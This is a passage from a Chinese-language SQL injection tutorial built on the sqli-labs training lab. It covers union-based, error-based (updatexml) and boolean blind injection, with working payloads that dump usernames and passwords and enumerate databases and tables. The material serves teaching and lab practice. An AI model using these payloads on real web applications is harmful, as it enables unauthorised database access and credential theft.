 举个例子：我们可以通过构造语句，获取所有的账户和密码，将其通过 `~` 进行分隔：`?id=-1' 
union select 1,2, group_concat(concat_ws('~',username,password)) from security.users  --+`

![](../sql-injection/5-2.png)

---

#### 2. 报错注入（Error-Based）  


来自：[Less-5](https://github.com/Audi-1/sqli-labs/tree/master/Less-5)

不是所有场景都会回显数据库值，那是否就安全了？攻击者可以通过显示的错误来获取数据库值


```sql
--+ 0x7e 为 16 进制编码的 ~
SELECT updatexml(1, concat(0x7e, database()), 1) FROM DUAL;
```

通过函数构造错误，将期望的信息以错误的信息提示出来：`?id=1' and updatexml(1,concat(0x7e,(database())),1) --+`


![](../sql-injection/6.png)

```sql
XPATH syntax error: '~security'
```

通过上面的错误我们就知道当前库名为：`security`，类似地可以执行任意语句

---

#### 3. 布尔盲注（Boolean-Based Blind）  

来自：[Less-7](https://github.com/Audi-1/sqli-labs/tree/master/Less-7)

一般项目都会隐藏错误堆栈，只提示成功或者失败，可以使用布尔盲注：`?id=1')) and left((select database()),1)='s'--+`

1. 通过 order by 测列宽 `?id=1')) order by 4 --+` 
2. 通过 left 函数，逐个字符地遍历判断 `?id=1')) and left((select database()),1)='s'--+ `，当前库名首字母为 `s` 时会提示正确，否则提示错误

tips：这里使用的是 `?id=1'))` 有别于前文的 `1'`，这是因为不同 SQL 语句可能对变量采用不同的闭合方式，注入时要符合原 SQL 语句，否则会出现 SQL 语法错误

通过类似的原理我们可以按照行列顺序依次遍历：

```sql
--+ 0x7365637572697479 为 16 进制编码的 security，使用 16 进制编码可以避免使用单引号

?id=1')) and ascii(substr((select table_name from information_schema.tables where table_schema=0x7365637572697479 limit 1,1),1,1))>1--+
```
再配合二分法提高效率，最终也能得到所有库表信息


#### 4. 时间盲注（Time-Based Blind）  

来自：[Less-9](https://github.com/Audi-1/sqli-labs/tree/master/Less-9)

